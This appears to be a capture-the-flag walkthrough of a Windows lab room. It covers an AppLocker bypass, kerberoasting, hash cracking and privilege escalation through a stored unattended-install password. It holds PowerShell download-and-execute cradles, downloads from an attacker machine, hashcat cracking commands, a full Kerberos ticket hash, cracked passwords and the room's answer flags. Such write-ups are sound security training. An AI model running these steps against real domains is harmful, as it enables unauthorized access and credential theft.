


# Corp

Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

In this room you will learn the following:

* Windows Forensics
* Basics of kerberoasting
* AV Evading
* Applocker

Deploy the windows machine, you will be able to control this in your browser. However if you prefer to use your own RDP client, the credentials are below.

* Username: `corp\dark`
* Password: `_QuejVudId6`

# [Task 2] Bypassing Applocker



AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.

## #2.1

**Instructions**

**There are many ways to bypass AppLocker.**

**If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default.**

**Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.**

Let's write a C program that will just output `Hello World!`:

```c
#include<stdio.h>

int main() {
  printf("Hello World!");
  return 0;
}
```

Compile the program:

~~~
$ x86_64-w64-mingw32-gcc hello.c -o hello.exe
~~~

Now, transfer this executable on the remote machine. We'll make it available via a python web server with `python3 -m http.server` on our workstation.

Download it on the Windows machine using the following Powershell command:

~~~
C:\Users\dark>powershell -c "Invoke-WebRequest -Uri 'http://10.9.0.54:8000/hello.exe' -OutFile 'C:\Windows\System32\spool\drivers\color\hello.exe'"
~~~

Now, execute the program:

~~~
c:\Windows\System32\spool\drivers\color>hello.exe
Hello World!
~~~

It worked because the program was executed in a whitelisted location. Now, if we copy the executable to the user's desktop, and try to execute it, it will be blocked.

~~~
c:\Windows\System32\spool\drivers\color>copy hello.exe c:\users\dark\desktop
        1 file(s) copied.

c:\Windows\System32\spool\drivers\color>cd \users\dark\desktop

c:\Users\dark\Desktop>hello.exe
This program is blocked by group policy. For more information, contact your system administrator.
~~~

## #2.2

**Just like Linux bash, Windows powershell saves all previous commands into a file called `ConsoleHost_history`. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`**

**Access the file and and obtain the flag.**

*Hint: `%userprofile%` is `c:\users\dark\` in this example.*

~~~
c:\Users\dark\Desktop>more \Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
ls
dir
Get-Content test
flag{a12a41b5f8111327690f836e9b302f0b}
iex(new-object net.webclient).DownloadString('http://127.0.0.1/test.ps1')
cls
exit
~~~

Answer: `flag{a12a41b5f8111327690f836e9b302f0b}`

# [Task 3] Kerberoasting

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

["SANS Webcast: Kerberos & Attacks 101"](https://www.youtube.com/watch?v=LmbP-XD1SC8)

Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!

## #3.1

**Lets first enumerate Windows. If we run `setspn -T medin -Q ​ */*` we can extract all accounts in the SPN.**

**SPN is the Service Principal Name, and is the mapping between service and account.**

**Running that command, we find an existing SPN. What user is that for?**

*Hint: `C:\Windows\system32\cmd.exe` - The location of CMD*

~~~
c:\Users\dark\Desktop>setspn -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
~~~

Answer: `fela`

## #3.2

**Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.**

**Lets first get the Powershell Invoke-Kerberoast script.**

**`iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')`**

**Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat ​ |fl`**

**You should get a SPN ticket.**




As the Windows machine is not connected to the Internet, we will download the script on our own machine, will make the file available through a python web server, and download it via HTTP on the Windows box.

Now on the Windows machine, run the script:

~~~
C:\Windows\System32\spool\drivers\color>powershell
PS C:\Windows\System32\spool\drivers\color> Invoke-WebRequest -Uri 'http://10.9.0.54:8000/Invoke-Kerberoast.ps1' -OutFile 'Invoke-Kerberoast.ps1'
PS C:\Windows\System32\spool\drivers\color> . .\Invoke-Kerberoast.ps1
PS C:\Windows\System32\spool\drivers\color> Invoke-Kerberoast -OutputFormat hashcat |fl


TicketByteHexStream  :
Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$91413060734DB19DDC6F68ED3D6E5AB6$C86E1E76EE9D275C68BA1F9
                       8C387DFEFD259E5459996FDC7A1251925397330E994404ED4764B04BCBD351FEDB1FB3178177CFA816340633FF00C81A
                       27E2189E015F9CF4D60C1F3FD9CCE59898BEAFCB09C847128260E1A9C826DF3A08D5C19A3E3AB96D525E01A8EE1A56E2
                       B14EE3957BEA78B0259056482F8E84BC1E2A9322B9C72CA01150345E8984C690BE2993080FFF7BF70A2AAE36BE0CC030
                       3D92B54CF1CD383D0957536F21937A6CCE4D737FD39CB249FF8F907826CDCDB35A5D6A78965BDCF5636779FF79EEA857
                       38C5ED3685ABF574F6192690FC5422C32F42653252A42E161C91A6CAFA0C4CB13BB48C297D80CC291F29171DCBAACCF0
                       F4981D9BE577936C48F0B3D9759167A410BD2FED73DD58688FECDAC486F1DF75560B6A7F835E20AA347B222B9A433605
                       10F9A3F467CC56621275D48C27BF2C30738AC4DB77D5DDAB96FF045993F947F605F9FEB73473E2A656C833A43FB72D94
                       158121B4CFCA35B7EADFFB7B3B032339A1AD652034012A317B3B168D4366DD9B632A64B330833887F51DEC7CC1C7BECA
                       784C4E916494E82B62DACA9658A23E579C94B15F747E2F21EF2ADBCE982C554F17D5F814ECA8D6DC546BA8A0C8EC3292
                       DC03F3024D1F29B677EDC0244BD33FBF387367AB76A44CA923BE2684A71401E18271C7CE40E045E8D04571E6DBFB34D2
                       21755C0E3ECB8FFFEE75EB869C2E986FD33394C423892F8C5C66C3329870D97CE1ACD5638946253B65C950498AFF3297
                       4C016761C0F9AB07220CEFE18B8A5520C54DEF11509C82843BBEA57BEFD126E252DCCFE0974613E2A1470C357A347C2E
                       3709F20EDCB5F6CEDFEA1E915C2A041A07C2E9D4E34D6BF8F45A0FC29E05DD7CD27586294F0A1E90607E1B2C6872803C
                       316172B2FB4D2AFB6CE87192310BFC04067289D148382921A612C8E88DE9D21AEE82C11432216CF86A9E773C6A9E75F3
                       FBB154DAA7AFF2B47E77BAC2283B898BB1362D03B8A6B0E6ABA70B90CFA6ABAB1A3EDFB37A59020EC8BA0B1D1702A003
                       54BD7BE6243CC0AED11FD3DB4134608980421DBDBA90D994C829F47908D2AD349F8FCF739E10260C82F5CA52A550307A
                       8BD10B394E9E925AC3E779F355A57F76505FEB41618EBAD6000165D0C37D4EADF6F359AA9A25796EEAD98008F4E7318A
                       2BF96D40E894A34A01D00C012B1AA6E7728559285E096ADC781E60368D7DFC132F68706C1FC6A639CF37E288000040D7
                       C0D21CE1DEBF47B7BE0E0980F104D32BCB527CC2B98902EF034B507DF70DC84FD0815CBC3F9EEE484A8040AB4ED6BD55
                       8CA18ECF0F5221649D1FD044CE7595B74914CAD1B4A6AEE391C1EF18A3AE5C7AC9934B11C0D2040B9B3630BF0FFE7BC8
                       4332C49533D4F665C81C3AECC95BCF07F0CEA82C2AB
SamAccountName       : fela
DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local
ServicePrincipalName : HTTP/fela
~~~

Save the hash in a file called `hash.txt`.

## #3.3

**Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.**

**`hashcat -m 13100 -​a 0 hash.txt wordlist --force`**

**Crack the hash. What is the users password in plain text?**

Let's crack the hash:

~~~
root@kali:~# hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

[REDACTED]

$krb5tgs$23$*fela$corp.local$HTTP/fela*$91413060[REDACTED]0cea82c2ab:rubenF124

[REDACTED]
~~~

Note that we could also use John:

~~~
$ ./john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rubenF124        (?)
1g 0:00:00:01 DONE (2020-06-21 20:20) 0.5405g/s 2233Kp/s 2233Kc/s 2233KC/s ruby1213..ruben4412
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

hashcat has found the password: `rubenF124`

## #3.4

**Login as this user. What is his flag?**

When connecting as `fela` in RDP, there is a file named `flag.txt` on the desktop.

Answer: `flag{bde1642535aa396d2439d86fe54a36e4}`

# [Task 4] Privilege Escalation

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

## #4.1

**We will run `PowerUp.ps1` for the enumeration.**

**Lets load `PowerUp1.ps1` into memory.**

**`iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1')`**

Let's invoke the script:

~~~
C:\Users\fela.CORP>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\fela.CORP> Invoke-WebRequest -Uri 'http://10.9.0.54:8000/PowerUp.ps1' -OutFile 'PowerUp.ps1'
PS C:\Users\fela.CORP> . .\PowerUp.ps1
PS C:\Users\fela.CORP> Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.

[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...

[*] Checking service permissions...

[*] Checking %PATH% for potentially hijackable .dll locations...

HijackablePath : C:\Users\fela.CORP\AppData\Local\Microsoft\WindowsApps\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\fela.CORP\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll'
                 -Command '...'

[*] Checking for AlwaysInstallElevated registry key...

[*] Checking for Autologon credentials in registry...

[*] Checking for vulnerable registry autoruns and configs...

[*] Checking for vulnerable schtask files/configs...

[*] Checking for unattended install files...

UnattendPath : C:\Windows\Panther\Unattend\Unattended.xml

[*] Checking for encrypted web.config strings...

[*] Checking for encrypted application pool and virtual directory passwords...

PS C:\Users\fela.CORP>
~~~

**The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.**

**"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it here.**

**It is also where users passwords are stored in base64. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.**

**What is the decoded password?**

Let's dump the content of the `C:\Windows\Panther\Unattend\Unattended.xml` file:

~~~
PS C:\Users\fela.CORP> more C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
~~~

The base64 decoded password is:

~~~
$ echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
~~~

Answer: `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T`

## #4.2

**Now we have the Administrator's password, login as them and obtain the last flag.**

When you will connect as `administrator`, you will be prompted to change the password. Make sure you set up a strong password, else you'll have to type the password again :).

The flag is on the desktop:

Answer: `THM{g00d_j0b_SYS4DM1n_M4s73R}`
